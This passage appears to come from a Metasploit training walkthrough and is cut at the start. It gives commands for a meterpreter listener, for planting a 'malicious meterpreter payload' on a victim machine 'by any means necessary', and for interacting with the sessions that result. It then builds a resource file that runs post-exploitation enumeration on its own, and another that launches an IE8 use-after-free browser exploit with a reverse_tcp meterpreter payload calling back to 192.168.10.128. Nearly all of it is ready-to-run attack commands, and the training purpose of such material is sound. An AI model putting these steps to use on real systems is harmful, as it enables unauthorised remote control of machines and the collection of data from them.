 the 'meterpreter.rc' file.
./msfconsole -r meterpreter.rc
 
- Once the msfconsole starts, the meterpreter resource file is executed and the listener is automatically setup.  It is now listening for a connection!
 
- Now you must transfer the malicious meterpreter payload to the victim machine (you may do so by any means necessary, we have physical access so we transferred it via usb.
 
- Click on the payload and create the meterpreter session.
 
- Type 'sessions -l' to list your open sessions, and 'sessions -i 1' to indicate that you want to interact with 

meterpreter session under id 1.
 
exit -y
    	



***********************************
* Getting Serious About .rc files *
***********************************


touch /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run getcountermeasure >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run winenum >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/enum_applications >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/enum_logged_on_users >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
echo run post/windows/gather/checkvm >> /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
 
 
- Ok, that was fun. Now let's take a quick look at the .rc file we just created.
cat /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
 
 
 
touch /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
 
echo use exploit/windows/browser/ie_cgenericelement_uaf >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set ExitOnSession true >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set URIPATH /ie8 >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set PAYLOAD windows/meterpreter/reverse_tcp >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
echo set LHOST 192.168.10.128 >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc                            

            
 
echo set AutoRunScript multi_console_command -rc /home/strategicsec/toolz/metasploit/autorun-walk-through.rc >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 